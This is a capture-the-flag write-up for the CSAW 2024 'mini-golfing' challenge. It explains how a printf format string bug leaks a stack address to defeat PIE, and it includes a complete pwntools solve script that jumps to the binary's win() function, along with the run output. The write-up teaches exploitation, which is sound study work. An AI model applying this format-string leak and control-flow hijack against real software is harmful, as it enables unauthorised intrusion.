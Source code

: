 ```yaml
---
layout: post
current: post
cover: assets/csaw/zerodaytea/mini-golfing.png
navigation: True
title: "mini-golfing"
date: 2024-09-09 11:59:00
tags: [csaw, pwn]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


Leaky stacks with printf: format string basics

## Looking at the Problem

We're providing with a binary ``golf`` so let's first begin by seeing what protections we're working with.
```sh
$ checksec ./golf
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

And let's take a look at the decomp as well with Binary Ninja
![A photo of the decomp](/assets/csaw/zerodaytea/golfdecomp.webp)

Only two functions are of particular notice that being ``main()`` and ``win()``. The ``win()`` function clearly reads the flag file but is never called explicitly so it looks like we'll need to find a way to jump to it.

Fortunately at the end of ``main()``, ``scanf()`` is used to read in an address and then jump to it with the following code segment
```c
00001360      __isoc99_scanf(&data_2094, &var_18);
00001365      int64_t rax_5 = var_18;
0000137c      printf("Ok jumping to that address...");
00001385      rax_5();
```

Unfortunately for us, however, as we saw earlier, PIE is enabled on the binary meaning the position of the binary in memory will be randomized every time it is started. We'll need to find a way to leak the address of ``win()`` in order to pass it into ``scanf()``.

Fortunately, there appears to be a simple format string printf vulnerability in
```c
00001309      fgets(&var_518, 0x400, stdin);
0000131d      printf("hello: ");
00001331      printf(&var_518);
```

As ``printf()`` is called on our input with no format specifier, we can pass our own format specifier as input and leak values earlier on the stack. Since ``win()`` is never invoked, it's address will likely not be anywhere on the stack, but the address of ``main()`` surely will be and we can use the fact that ``win()`` and ``main()`` will always be at consistent offsets away from each other to our advantage. 

I'll use gdb and pass in the ``%p`` format specifier to leak stack data as pointers. Looking at the address space with ``info proc mappings`` we see
![memory space](/assets/csaw/zerodaytea/memoryspace.webp)
So we should be looking for addresses of the format ``0x55555555...`` 

Passing in as many ``%p``'s into the printf call as we can we can then start looking for something matching. Note that this can be more easily done but just iterating with ``%{i}$p`` until we find something like the address of main but because our buffer is big enough here this works as well.

![format string](/assets/csaw/zerodaytea/formatstring.webp)
We can use ``info functions main`` in gdb to get the address of main and win

```
pwndbg> info functions main
All functions matching regular expression "main":
...
Non-debugging symbols:
0x0000555555555223  main
...
pwndbg> info functions win
All functions matching regular expression "win":
0x0000555555555209  win
```

Looking back at our leaked addresses we spot ``0x555555555223`` as the 177th address printed (quick trick is to count the number of periods appearing between the stack leaks).

Now we now that even outside of gdb we can always always use the format specifier ``%177$p`` to leak the address of main. Since we see that ``win()`` is just ``0x555555555223 - 0x555555555209 = 0x1a`` offset away from ``main()`` we can simply leak the address of main and use the offset to calculate the address we want to jump to.

Writing up our solve script to do just that we get something like
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./golf")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        br main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def main():
    p = conn()

    p.sendlineafter("name?", "%177$p")
    output = p.recvline()
    main_addr = output.strip()[7:]
    main_addr_int = int(main_addr, 16)
    win_addr_int = main_addr_int - 0x1a
    win_addr = hex(win_addr_int)
    print(win_addr)

    p.sendlineafter("aim at!:", win_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

If you are unfamiliar with pwntools scripts just take note of the main function where the program is started up, the format specifier is sent, the address of main is parsed from the result, the offset is subtracted, and the resulting address is sent back to the running binary.

Running our solve we get a flag!
```
$ python3 solve.py 
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf': pid 29025
0x56f233f74209
[*] Switching to interactive mode
 Ok jumping to that address...csawctf{test_flag}
[*] Got EOF while reading in interactive
```

Simply replacing the ``p = remote()`` call above we can leak the remote flag just as easily.
